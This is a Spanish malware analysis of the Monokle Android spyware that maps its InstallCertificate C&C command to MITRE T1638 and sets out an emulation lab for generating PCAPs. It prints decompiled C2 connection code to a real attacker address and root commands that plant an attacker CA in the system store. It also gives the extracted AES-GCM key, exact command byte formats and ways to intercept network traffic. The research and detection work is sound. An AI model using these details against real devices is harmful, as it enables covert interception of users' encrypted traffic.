

La relación que [MITRE ATT&CK establece entre Monokle y T1638](https://attack.mitre.org/software/S0407/) se entiende mejor al separar dos cosas que en un primer vistazo pueden parecer la misma. El [informe técnico de Lookout sobre Monokle](https://www.lookout.com/documents/threat-reports/lookout-discovers-monokle-threat-report.pdf) describe el contexto general de la familia. La muestra no implementa un proxy local ni lee tráfico descifrado de otros procesos. Lo que implementa es una orden de C&C capaz de instalar un certificado especificado por el atacante dentro del almacén de certificados del sistema Android. Esta acción no consuma por sí sola la técnica **T1638 - Adversary-in-the-Middle**; más bien deja el dispositivo preparado para que una intercepción posterior sea aceptada como confiable. Para que realmente exista T1638, el atacante también debe conseguir situarse en medio del flujo de red o enganchar el tráfico a nivel de proceso.

Por tanto, la parte observable directamente a nivel de red para esta muestra es la creación de una conexión C&C sobre TLS 1.2 hacia un puerto no estándar (se verá más adelante). El comando `InstallCertificate` es una preparación de T1638, pero no equivale todavía al MITM. Para demostrar la técnica de forma completa en una PCAP conviene añadir una segunda fase: tráfico TLS de la víctima hacia un servicio legítimo redirigido a un proxy atacante que presente un certificado emitido por la CA instalada.

### Análisis estático de la configuración

| Artefacto | Tipo | Identificación | SHA-256 |
|---|---|---|---|
| `0a2df7bf56192efbbeb26479cd58d5ae6cb2ed0946b5a138d372b5d85373b4de.apk` | APK de Android | Paquete `com.system.security_update`; versión 9.3618-20181005_1510; API mínima 14 y objetivo 26 | `0a2df7bf56192efbbeb26479cd58d5ae6cb2ed0946b5a138d372b5d85373b4de` |

Dentro del APK aparecen dos recursos de configuración:

```text
assets/config2.acf
assets/config8261.lmt
```

El código encargado de cargar la configuración se encuentra en `com.system.security_update.SettingsParser`. El método que lee la configuración inicial es `loadStartSettings()`.

```java
private boolean loadStartSettings() {
    InputStream inputStreamOpen;
    int iAvailable;
    try {
        inputStreamOpen = App.getContext().getAssets().open(INITIAL_CONFIG_FILE);
    } catch (Exception unused) {
        inputStreamOpen = null;
    }
    ...
    return loadSettingsFromBuffer(bArr);
}
```

La función llamada a continuación es `loadSettingsFromBuffer(byte[])`. En ella se ve la operación relevante:

```java
private boolean loadSettingsFromBuffer(byte[] bArr) {
    StreamHelper.encryptDecryptBuffer(bArr);
    TMemoryBuffer tMemoryBuffer = new TMemoryBuffer(128);
    TCompactProtocol tCompactProtocol = new TCompactProtocol(tMemoryBuffer);
    try {
        tMemoryBuffer.write(bArr);
        this.mServiceSettings.agentSettings.read(tCompactProtocol);
        ...
    }
}
```

Es decir, el recurso está ofuscado con XOR y después se interpreta como una estructura Thrift Compact. La rutina XOR está en `StreamHelper.encryptDecryptBuffer(byte[])`.

```java
public static void encryptDecryptBuffer(byte[] bArr) {
    if (bArr == null || bArr.length <= 0) {
        return;
    }
    for (int i = 0; i < bArr.length; i++) {
        bArr[i] = ByteHelper.intToByte(ByteHelper.byteToInt(bArr[i]) ^ XOR_MASSIVE[i % 128]);
    }
}
```

El array `XOR_MASSIVE` tiene 128 valores. Se recuperó directamente desde el `fill-array-data` del método estático `<clinit>` de `StreamHelper`. Con eso se decodificó `config2.acf`, que resultó ser el `AgentSettings` principal.

La configuración resultante es:

```text
agentId:           10
period:            30
wifiPeriod:        30
communicationMode: Socket
socketAddr:        185.117.89.238:17185
usbTunnelPort:     4091
needActivation:    0
```

El modo configurado es `Socket`, no `Email`. La muestra contiene soporte para comunicaciones por correo, con POP3/SMTP en puertos 995 y 465, pero en esta configuración concreta no se usa como canal principal. En este instante ya se puede ver un indicio de que se cumple la técnica **T1509-Non-Standard Port**.

También se extraen las frases de control:

```text
connect
delete
location
newaddress
activate
email
audio
```

El segundo recurso, `config8261.lmt`, contiene parcialmente la misma información en otro formato. Tras aplicar el mismo XOR aparecen cadenas UTF-16LE como:

```text
185.117.89.238
connect
location
activate
audio
```

No parece ser el `AgentSettings` principal usado por `SettingsParser.loadStartSettings()`, pero confirma la misma infraestructura y parte de las palabras de control.

### Certificado del canal C&C

La configuración `socketAddr` incluye un certificado X.509 en DER. La clase `NetConnector` lo usa para construir un `KeyStore` temporal y validar el certificado presentado por el servidor C&C.

```java
Certificate certificateGenerateCertificate =
    CertificateFactory.getInstance("X.509").generateCertificate(
        new ByteArrayInputStream(
            SettingsParser.getInstance()
                .getServiceSettings()
                .agentSettings
                .socketAddr
                .certificate
                .array()));
KeyStore keyStore = KeyStore.getInstance(KeyStore.getDefaultType());
keyStore.load(null, null);
keyStore.setCertificateEntry("ca", certificateGenerateCertificate);
TrustManagerFactory trustManagerFactory =
    TrustManagerFactory.getInstance(TrustManagerFactory.getDefaultAlgorithm());
trustManagerFactory.init(keyStore);
```

El certificado extraído tiene estos datos:

```text
Subject:  CN=TEST,O=X,ST=X,C=XX
Issuer:   CN=TEST,O=X,ST=X,C=XX
Serial:   0x97f0746f5ec596ce
SHA256:   8f704e77810d3b9858f7fb99e28c6b5c915505b72012391dba8e1b8d5f3f11bc
NotBefore: 2017-12-14 12:05:03 UTC
NotAfter:  2026-03-02 12:05:03 UTC
```

El certificado dejó de ser válido el 2 de marzo de 2026, por lo que ya estaba expirado cuando se realizó el análisis original. Aun así, el código ignora explícitamente excepciones de expiración y de certificado todavía no válido:

```java
public void checkServerTrusted(X509Certificate[] x509CertificateArr, String str)
        throws CertificateException {
    try {
        x509TrustManager.checkServerTrusted(x509CertificateArr, str);
    } catch (CertificateExpiredException | CertificateNotYetValidException unused) {
    } catch (CertificateException e) {
        ...
        throw e;
    }
}
```

En TLS, el servidor no solo presenta el certificado: también debe demostrar que posee la clave privada asociada a la clave pública del certificado, por ejemplo firmando los parámetros efímeros en un handshake ECDHE_RSA o usando la privada en un intercambio RSA clásico.

Por tanto, tener el certificado completo y su fingerprint no permite levantar un servidor TLS que sea aceptado como si tuviera esa identidad, salvo que también tengamos la privada correspondiente o un certificado de servidor firmado por una CA que el APK ya confíe. Para una emulación esto no es un bloqueo: se puede generar una CA y un certificado propios, y usar esa CA en el comando `InstallCertificate`. Si se quisiera ejecutar el APK real sin modificar contra infraestructura controlada, habría que parchear `config2.acf` con nuestro certificado de confianza, volver a calcular el XOR y reempaquetar, o interceptar la validación con un hook. Desde luego es más sencillo emular el malware como cliente python, pero para ello se requiere tener muy clara la firma del tráfico.

### Creación de la conexión C&C

La conexión se crea en `NetConnector.connect()`.

```java
public static boolean connect() {
    if (!checkConnectionAvailable()) {
        return false;
    }
    try {
        switch (SettingsParser.getInstance()
                .getServiceSettings()
                .agentSettings
                .communicationMode) {
            case Socket:
                if (!CreateSslConnection()) {
                    return false;
                }
                break;
            case Email:
                if (!EmailManager.isInitialized()) {
                    EmailManager.initialize();
                }
                break;
            default:
                return false;
        }
        sWasConnected = true;
        return true;
    } catch (Exception e) {
        ...
        return false;
    }
}
```

Para el modo `Socket`, se llama a `CreateSslConnection()`. La parte más importante es:

```java
sTcpSocket = (SSLSocket) sSLContext2
    .getSocketFactory()
    .createSocket(
        SettingsParser.getInstance().getServiceSettings().agentSettings.socketAddr.addr,
        SettingsParser.getInstance().getServiceSettings().agentSettings.socketAddr.port);
sTcpSocket.setEnabledProtocols(new String[]{"TLSv1.2"});
sTcpSocket.setSoTimeout(ServiceEngine.SocketTimeout);
sTcpSocket.setUseClientMode(true);
sTcpSocket.startHandshake();
```

Por tanto, el flujo de red base es:

```text
Sentido: de la víctima al C2
TCP connect 185.117.89.238:17185
TLSv1.2 handshake
```

Esto encaja directamente con MITRE Mobile **T1509 - Non-Standard Port**, porque se observa tráfico TLS sobre un puerto que no es 443. En este caso, el puerto es `17185`.

### Registro del agente

El flujo de ejecución principal se encuentra en `SessionManager.run()`.

```java
public void run() throws Throwable {
    Logger.log("run {");
    isRunning.set(true);
    if (!needStopSession()) {
        try {
            if (connectAndRegisterOnServer()) {
                activeSession();
            } else {
                disconnectFromServer();
            }
        } catch (Exception e) {
            Logger.logException(e);
        }
    }
    ...
}
```

Tras crear el socket TLS, el método `connectAndRegisterOnServer()` genera el registro inicial.

```java
Protocol.TRequestData tRequestData = new Protocol.TRequestData();
if (!Protocol.generateAgentRegistration(tRequestData)
        || NetConnector.sendDataBlock(tRequestData.Data) != 0) {
    return false;
}
```

La función `Protocol.generateAgentRegistration()` serializa un objeto `AgentRegistration` usando Thrift Compact. Esto es algo conocido y que lookout ya presentó en su [informe](https://www.lookout.com/documents/threat-reports/lookout-discovers-monokle-threat-report.pdf). Thrift no envía JSON ni nombres de campos en texto claro: genera una representación binaria donde cada campo se identifica por un número, un tipo y un valor. En el protocolo Compact, los enteros se codifican como varint con zig-zag, los strings y binarios llevan longitud varint, y cuando los identificadores de campo son próximos se guarda solo la diferencia respecto al campo anterior. Todo esto se puede analizar más en detalle en el [repositorio](https://github.com/apache/thrift/blob/master/doc/specs/thrift-compact-protocol.md).

Este primer mensaje no usa AES-GCM propio de Monokle; solo va protegido por el TLS exterior.

```java
AgentRegistration agentRegistration = new AgentRegistration();
agentRegistration.setDeviceId(
    SettingsParser.getInstance().getServiceSettings().deviceId);
agentRegistration.setAgentId(
    SettingsParser.getInstance().getServiceSettings().agentSettings.agentId);
agentRegistration.setIsWifi(NetConnector.checkWifiConnectionAvailable());
agentRegistration.write(tCompactProtocol);
int length = tMemoryBuffer.length();
byte[] array = tMemoryBuffer.getArray();
StreamHelper.writeUnsignedIntLE(byteArrayOutputStream, length);
byteArrayOutputStream.write(array, 0, length);
```

A nivel de estructura:

```text
Sentido: de la víctima al C2
<uint32_le length>
<TCompactProtocol AgentRegistration>
```

El objeto contiene:

```text
deviceId
agentId
isWifi
```

El `agentId` de esta muestra es `10`. El `deviceId` no está en `config2.acf`; lo inicializa y persiste el servicio en tiempo de ejecución.

Con los tres campos presentes, los identificadores son:

| Estructura | Identificador Thrift | Campo | Tipo |
|---|---:|---|---|
| `AgentRegistration` | 1 | `deviceId` | `string` |
| `AgentRegistration` | 2 | `agentId` | `i32` |
| `AgentRegistration` | 3 | `isWifi` | `bool` |

### Cifrado de mensajes de comando

Después del registro, `SessionManager.activeSession()` entra en un bucle de lectura de comandos:

```java
while (!needStopSession() && ...) {
    int serverResponse = readServerResponse();
    ...
    if (serverResponse == 0) {
        if (taskInfo.baseSystem.taskType == TaskType.NoCommands) {
            break;
        }
        int iProcessCommandTask = processCommandTask();
        ...
        if (sendAgentResponse() == 102) {
            break;
        }
    }
}
```

El comando entrante se lee con `readServerResponse()`.

```java
int iCheckServerResponseWasRead =
    Protocol.checkServerResponseWasRead(byteArrayOutputStream);
if (iCheckServerResponseWasRead == 1) {
    byte[] byteArray = byteArrayOutputStream.toByteArray();
    int serverResponse = Protocol.parseServerResponse(
        StreamHelper.decryptPacketAES(byteArray),
        taskInfo);
    ...
}
```

Primero comprueba que se haya recibido el paquete completo. La función usa los dos primeros bytes como longitud little-endian.

```java
return byteArrayOutputStream.size()
    >= StreamHelper.readUnsignedShort(byteArray[0], byteArray[1]) + 2
    ? 1
    : 0;
```

Por tanto, el servidor manda comandos con este formato:

```text
Sentido: del C2 a la víctima
<uint16_le encrypted_length>
<16 bytes IV>
<AES-GCM ciphertext + 16 bytes tag>
```

La función `StreamHelper.decryptPacketAES(byte[])` confirma el formato:

```java
byte[] iv = Arrays.copyOfRange(bArr, 2, 18);
byte[] aad = IntToByteArray(bArr.length - 2);
gCMBlockCipher.init(false,
    new AEADParameters(
        new KeyParameter(transportCrypto.aesGcm.key.array()),
        128,
        iv,
        aad));
gCMBlockCipher.processBytes(
    bArr,
    18,
    (bArr.length - 16) - 2,
    bArr2,
    0);
```

La clave AES-GCM extraída de la configuración es:

```text
2b d8 3e 10 e8 8e cf 92 23 14 ba c8 ff 1c e7 bf
60 3a e5 11 de 7a ab 87 44 e7 27 ef 48 a3 ad fe
```

Es decir:

```text
2bd83e10e88ecf922314bac8ff1ce7bf603ae511de7aab8744e727ef48a3adfe
```

El texto claro del comando, tras AES-GCM, vuelve a ser una estructura con longitud y Thrift Compact:

```text
<uint16_le thrift_length>
<TCompactProtocol ServerCommand>
```

La estructura mínima que activa la instalación de certificado contiene estos campos Thrift. El identificador de cada campo está definido en las clases generadas del APK. `TCompactProtocol` lo codifica junto al tipo y, cuando se encuentra próximo al identificador anterior, representa únicamente la diferencia entre ambos.

| Estructura | Identificador Thrift | Campo | Tipo o valor |
|---|---:|---|---|
| `ServerCommand` | 1 | `category` | `i32`; `TaskCategory.BaseSystemTask = 0` |
| `ServerCommand` | 100 | `baseSystem` | `ServerCommand_BaseSystem` |
| `ServerCommand_BaseSystem` | 1 | `taskId` | `i32` |
| `ServerCommand_BaseSystem` | 2 | `taskType` | `i32`; `TaskType.InstallCertificate = 1019` |
| `ServerCommand_BaseSystem` | 3 | `timestamp` | `i64`; tiempo Unix |
| `ServerCommand_BaseSystem` | 126 | `installCertificate` | `BaseSystemCommand_InstallCertificate` |
| `BaseSystemCommand_InstallCertificate` | 1 | `filename` | `string` |
| `BaseSystemCommand_InstallCertificate` | 2 | `certificate` | Binario DER |

La respuesta del agente se genera con `sendAgentResponse()`.

```java
m_agentResponse.write(tCompactProtocol);
int length = tMemoryBuffer.length();
byte[] array = tMemoryBuffer.getArray();
StreamHelper.writeUnsignedIntLE(byteArrayOutputStream, length);
byteArrayOutputStream.write(array, 0, length);
NetConnector.sendDataBlock(
    StreamHelper.encryptPacketAES(
        byteArrayOutputStream.toByteArray(),
        byteArrayOutputStream.size()));
```

La función `encryptPacketAES(byte[], int)` usa este formato:

```java
int length = iv.length + plaintext_length + 16;
byte[] out = new byte[length + 5];
System.arraycopy(IntToByteArray(length), 0, out, 0, 4);
out[4] = 1;
System.arraycopy(iv, 0, out, 5, iv.length);
```

A nivel de bytes:

```text
Sentido: de la víctima al C2
<uint32_le encrypted_length>
01
<16 bytes IV>
<AES-GCM ciphertext + 16 bytes tag>
```

El AAD usado por AES-GCM en respuestas es:

```text
<uint32_le encrypted_length>
01
```

La respuesta correcta mínima para `InstallCertificate`, cuando el malware no informa error, no contiene un campo explícito de éxito. El método `processCommandTask()` crea un `AgentResponse`, fija `category = BaseSystemTask`, crea `baseSystem`, copia el `taskId` de la orden y solo añade `baseSystem.error` si el código de retorno es distinto de `0` y no es respuesta parcial. Por tanto, la respuesta mínima contiene:

| Estructura | Identificador Thrift | Campo | Tipo o valor |
|---|---:|---|---|
| `AgentResponse` | 1 | `category` | `i32`; `TaskCategory.BaseSystemTask = 0` |
| `AgentResponse` | 100 | `baseSystem` | `AgentResponse_BaseSystem` |
| `AgentResponse_BaseSystem` | 1 | `taskId` | `i32` |

Para `taskId = 7001`, la estructura Thrift previa al prefijo de 4 bytes y al AES-GCM serializa como:

```text
15 00 0c c8 01 15 b2 6d 00 00
```

### Comando InstallCertificate

La técnica T1638 está vinculada a la capacidad de instalar certificados atacantes. En esta muestra, eso aparece como una tarea C&C en `TaskType`.

```java
case 1019:
    return InstallCertificate;
```

En `SessionManager.processCommandTask()` se llama al método asociado:

```java
case InstallCertificate:
    callsList = installCertificate();
    break;
```

La implementación está en `SessionManager.installCertificate()`.

```java
private static int installCertificate() {
    BaseSystemCommand_InstallCertificate cmd =
        taskInfo.baseSystem.installCertificate;
    if (cmd == null) {
        return Protocol.TErrorType.PROTOCOL_FIELD_MISSING;
    }
    try {
        Logger.log("Install certificate: " + cmd.filename);
        if (!ServiceEngine.isRootAvailable()) {
            return Protocol.TErrorType.NOT_SUPPORTED;
        }
        File file = new File(App.getContext().getCacheDir(), cmd.filename);
        FileOutputStream fileOutputStream = new FileOutputStream(file);
        fileOutputStream.write(cmd.certificate.array());
        fileOutputStream.close();
        ...
    }
}
```

La estructura Thrift que recibe el malware es `BaseSystemCommand_InstallCertificate`.

```text
BaseSystemCommand_InstallCertificate(
    filename: <nombre del fichero de certificado>,
    certificate: <bytes DER>
)
```

Después de escribir el certificado temporalmente, usa root para modificar `/system`.

```java
RootHelper.getInstance().executeRootCommand("mount -o rw,remount /system");
boolean copied = RootHelper.getInstance().ddCopyFile(
    file.getAbsolutePath(),
    "/system/etc/security/cacerts/" + cmd.filename);
RootHelper.getInstance().deleteFile(file);
if (!copied) {
    return 100;
}
RootHelper.getInstance().executeRootCommand(
    "chmod 644 /system/etc/security/cacerts/" + cmd.filename);
RootHelper.getInstance().executeRootCommand(
    "chown root:root /system/etc/security/cacerts/" + cmd.filename);
RootHelper.getInstance().setSecurityContext(
    new File("/system/etc/security/cacerts/", cmd.filename),
    securityContext);
```

El nombre del fichero debe seguir el formato que Android espera en `/system/etc/security/cacerts/`, normalmente el hash OpenSSL del sujeto con sufijo `.0`, por ejemplo:

```text
<subject_hash_old>.0
```

Para la muestra PCAP no es necesario que el certificado sea válido para Android, porque el objetivo de red es demostrar el comando y la creación del flujo. Para una ejecución real en emulador, sí conviene respetar el formato.

### Qué ocurre tras instalar el certificado

Esta es la parte más importante para no mezclar técnicas.

El malware no empieza a leer tráfico descifrado a nivel de proceso. Tampoco levanta un proxy local. En el código analizado no aparecen referencias a:

```text
VpnService
Proxy
iptables
setHttpProxy
```

La acción es persistir una CA atacante dentro del almacén de confianza del sistema:

```text
/system/etc/security/cacerts/
```

Esto habilita una capacidad de Adversary-in-the-Middle, pero necesita una segunda condición: que el atacante esté en posición de interceptar o redirigir el tráfico de red. En este punto es donde esta muestra se diferencia de casos como KeyRaider. KeyRaider interceptaba `SSLRead` y `SSLWrite` en el proceso `itunesstored`, por lo que la intercepción ocurría dentro del propio proceso de la víctima. En Monokle, con el código observado, el malware no engancha las primitivas TLS de otros procesos; solo instala una CA confiable.

La CA instalada resuelve el problema de confianza del certificado falso. No resuelve el problema de encaminamiento. El descifrado ocurriría en la infraestructura MITM externa, no dentro del proceso Monokle. La pregunta entonces es cómo se fuerza en la vida real que el tráfico pase por el proxy. Con esta muestra concreta no se fuerza desde el APK mediante VPN ni proxy del sistema. Las formas realistas de aportar esa segunda condición son externas al malware:

```text
1. Punto Wi-Fi controlado por el atacante.
   El atacante hace que la víctima se conecte a un AP propio, por ejemplo mediante un evil twin, ingeniería social o control físico del entorno. El AP entrega por DHCP una puerta de enlace y DNS controlados por el atacante.
2. ARP spoofing o DHCP spoofing en la misma LAN.
   Si el atacante ya está en la red local, puede colocarse como puerta de enlace efectiva y redirigir el tráfico TCP hacia un proxy transparente.
3. DNS spoofing o DNS controlado.
   El atacante resuelve un dominio legítimo hacia una IP bajo su control. El proxy presenta un certificado para ese dominio firmado por la CA instalada por Monokle.
4. Proxy transparente en la puerta de enlace.
   El tráfico no necesita configurar un proxy explícito en Android. La puerta de enlace intercepta conexiones salientes, termina TLS con un certificado generado al vuelo y abre otra conexión hacia el destino real.
5. Infraestructura celular o estación base falsa.
   Es conceptualmente posible a nivel de operador o estación base, pero para una muestra PCAP con Wi-Fi/DHCP/DNS es mucho más reproducible.
```

Por tanto, el flujo completo de T1638 sería de dos etapas:

```text
Etapa A - Preparación por malware:
    1. El C2 envía InstallCertificate con la CA del atacante.
    2. Monokle copia la CA en /system/etc/security/cacerts/.
Etapa B - Intercepción real:
    3. La víctima inicia una conexión TLS destinada al servicio legítimo.
    4. La puerta de enlace o el proxy presenta a la víctima un certificado firmado por la CA instalada.
    5. El proxy establece una segunda sesión TLS independiente con el servicio legítimo.
```

Solo con la etapa A se puede decir que Monokle tiene capacidad facilitadora de T1638. Para demostrar T1638 en una PCAP, debe verse también la etapa B.

### Secuencia comunicativa

El flujo típico de C&C que interesa emular es:

| Paso | Sentido | Operación |
|---:|---|---|
| 1 | Víctima a C2 | Conexión TCP con `185.117.89.238:17185`. |
| 2 | Bidireccional | Negociación TLS 1.2. |
| 3 | Víctima a C2 | `AgentRegistration`. |
| 4 | C2 a víctima | `ServerCommand(BaseSystemTask, InstallCertificate)`. |
| 5 | Víctima a C2 | `AgentResponse(BaseSystemTask, taskId, resultado)`. |

El diagrama de paso de mensajes de la fase C&C quedaría (tras el TLSv1.2 ServerHello se asume que lo restante también es TLS):



El comando que nos interesa forzar es:

```text
ServerCommand(
    category: BaseSystemTask,
    baseSystem: ServerCommand_BaseSystem(
        taskId: <id>,
        taskType: InstallCertificate,
        timestamp: <timestamp>,
        installCertificate: BaseSystemCommand_InstallCertificate(
            filename: "<hash>.0",
            certificate: <DER de CA atacante>
        )
    )
)
```

El valor de `TaskType.InstallCertificate` es:

```text
1019
```

Para que el PCAP represente también T1638, después de este intercambio hay que añadir un flujo independiente de navegación o API hacia un servicio legítimo. Ese flujo no es el C&C de Monokle, sino tráfico de la víctima que pasa por el proxy atacante gracias a la CA instalada. Un ejemplo de esta casuística sería el siguiente:

```text
Tramo entre la víctima y el proxy o la puerta de enlace atacante
TCP/443 hacia 185.117.89.238 con SNI y Host www.oracle.com
TLS handshake
El proxy presenta un certificado de www.oracle.com firmado por la CA instalada
Tramo entre el proxy o la puerta de enlace atacante y el servicio de destino
TCP/443 hacia 23.208.220.69 con SNI www.oracle.com
TLS handshake real
```

La condición importante es que el certificado presentado al cliente esté firmado por la CA que previamente viajó en `InstallCertificate`. Eso une técnicamente la fase de preparación con la fase AiTM.

### Laboratorio de generación del PCAP

La emulación implementa cuatro roles:

```text
C2 Monokle
Cliente víctima
Proxy de intercepción
Servicio HTTPS destino
```

| Entidad | Dirección y servicio | Procedencia |
|---|---|---|
| Víctima emulada | `10.40.7.10` | Dirección privada asignada al cliente dentro de la topología aislada. |
| Infraestructura Monokle | `185.117.89.238:17185` y `185.117.89.238:443` | TCP/17185 es el extremo almacenado en `socketAddr` dentro de `config2.acf`; la IP también figura entre la infraestructura publicada por [Lookout](https://www.lookout.com/documents/threat-reports/lookout-discovers-monokle-threat-report.pdf). El laboratorio reutiliza esa entidad para el proxy TCP/443, pero no presenta esta segunda función como un servicio observado históricamente en la dirección. |
| Servicio HTTPS de origen | `23.208.220.69:443` | Respuesta A de `www.oracle.com` obtenida el 20 de agosto de 2026 a través de su distribución legítima. No es un IOC de Monokle. |

El canal C&C respeta el puerto de la muestra:

```text
TCP/17185 + TLSv1.2
```

La clave AES-GCM del protocolo Monokle es la extraída de `config2.acf`:

```text
2bd83e10e88ecf922314bac8ff1ce7bf603ae511de7aab8744e727ef48a3adfe
```

El script genera el material criptográfico necesario para una emulación controlada:

```text
1. Certificado TLS del C2.
   Sirve para aceptar la conexión TLS en 17185.
2. CA atacante enviada por InstallCertificate.
   Es el contenido binario DER de la orden C2.
3. Certificado de servidor para www.oracle.com.
   Lo presenta el proxy y está firmado por la CA enviada en InstallCertificate.
4. Certificado del servicio HTTPS destino.
   Representa la segunda sesión TLS que abre el proxy hacia el destino.
```

El flujo completo que genera es:

```text
1. El C2 Monokle emulado escucha en TCP/17185 con TLS.
2. El cliente víctima conecta al C2 y envía AgentRegistration.
3. El C2 responde con ServerCommand(BaseSystemTask, InstallCertificate).
4. El contenido del comando contiene la CA atacante en DER.
5. El cliente responde con AgentResponse.
6. Después, el cliente abre una conexión HTTPS con SNI y Host `www.oracle.com` hacia el proxy `185.117.89.238:443`.
7. La topología reúne C2 y proxy bajo una sola entidad lógica. TCP/17185 procede de la muestra; TCP/443 se añade para materializar la condición de encaminamiento externa que Monokle no implementa por sí mismo.
8. El proxy presenta a la víctima un certificado de `www.oracle.com` firmado por la CA enviada en `InstallCertificate`.
9. El proxy abre una segunda sesión TLS hacia el servicio HTTPS de origen `23.208.220.69:443`.
```

A nivel de PCAP deberían quedar tres familias de flujos:

```text
Flujo 1 - C&C Monokle:
    TCP hacia 17185
    TLSv1.2
    AgentRegistration
    ServerCommand InstallCertificate
    AgentResponse
Flujo 2 - Tramo entre la víctima y el proxy:
    TCP/443 hacia 185.117.89.238 con SNI www.oracle.com
    TLS con certificado de servidor firmado por la CA instalada
Flujo 3 - Tramo entre el proxy y el servicio de origen:
    TCP/443 hacia 23.208.220.69
    TLS independiente hacia el servidor legítimo
```

Este escenario está automatizado en `python-labnet` con el identificador `monokle`. La ejecución, la captura conjunta de los dos puntos de red y la recopilación del material TLS y AES-GCM se describen en la [guía central de laboratorios Python](Laboratorios%20Python.md).
